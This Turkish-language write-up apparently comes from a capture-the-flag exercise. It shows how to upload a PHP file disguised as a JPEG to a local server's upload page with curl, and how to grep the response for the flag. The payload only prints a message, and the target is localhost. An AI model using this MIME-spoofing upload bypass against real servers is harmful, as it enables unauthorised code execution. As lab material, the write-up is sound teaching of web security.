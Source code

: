 ### Exploit Açıklaması

Bu exploit, bir PHP dosyasını kötü amaçlı bir şekilde yükleyerek sunucuda kod çalıştırmayı hedefler. Aşağıdaki adımlar bu süreci açıklar:

1. **Kötü Amaçlı PHP Dosyası Oluşturma**: İlk olarak, kötü amaçlı bir PHP dosyası oluşturulur. Bu dosya, sunucuda çalıştırıldığında "I am bad" mesajını ekrana yazdırır.
    ```bash
    echo '<?php echo "I am bad" ?>' > /tmp/bad.php
    ```

2. **Dosya Yükleme**: Daha sonra, bu dosya bir `image/jpeg` dosyası olarak sunucuya yüklenir. Bu işlem `curl` komutu kullanılarak yapılır.
    ```bash
    curl -X POST -F "Upload=Upload" -F "uploaded=@/tmp/bad.php;type=image/jpeg" "http://localhost:8080/index.php?page=upload"
    ```

3. **Bayrağı Bulma**: Yükleme işlemi tamamlandıktan sonra, sunucunun yanıtı `grep` komutu ile taranarak "The flag is :" ifadesi aranır. Bu ifade, bayrağın bulunduğu yeri gösterir.
    ```bash
    | grep 'The flag is :'
    ```

Bu adımlar, sunucunun dosya yükleme işlevindeki bir güvenlik açığını kullanarak kötü amaçlı kod çalıştırmayı ve bayrağı elde etmeyi amaçlar.

### İlgili Dosya
[#file:flag.txt](#file:flag.txt-context)